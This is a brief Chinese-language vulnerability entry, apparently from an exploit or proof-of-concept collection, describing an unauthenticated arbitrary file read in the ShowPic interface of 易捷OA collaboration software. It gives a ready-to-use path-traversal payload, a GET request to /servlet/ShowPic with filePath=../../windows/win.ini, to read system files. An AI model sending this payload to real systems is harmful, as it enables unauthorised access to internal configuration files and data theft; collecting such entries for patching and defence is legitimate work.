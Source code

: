 **漏洞描述：**

易捷OA协同办公软件ShowPic接口处存在任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

**影响版本：**

易捷OA协同办公软件

**Payload：**

```jsx
GET /servlet/ShowPic?filePath=../../windows/win.ini
```

---
